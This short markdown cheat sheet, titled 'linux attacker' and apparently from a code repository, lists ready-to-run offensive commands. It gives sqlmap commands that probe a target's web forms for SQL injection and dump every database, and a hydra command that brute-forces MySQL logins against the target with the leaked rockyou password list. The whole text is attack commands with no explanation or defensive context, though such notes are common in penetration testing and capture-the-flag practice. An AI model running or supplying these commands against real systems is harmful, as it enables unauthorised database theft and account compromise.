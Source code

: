 # linux attacker

## check and dump information from sql injection

```bash
sqlmap --batch -a --forms -u "http://$rhost" --output-dir="."
sqlmap --batch -a --dump-all --forms -u "http://$rhost" --output-dir="."
```

## bruteforce sql

```bash
hydra -L users.txt -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt $rhost mysql
```
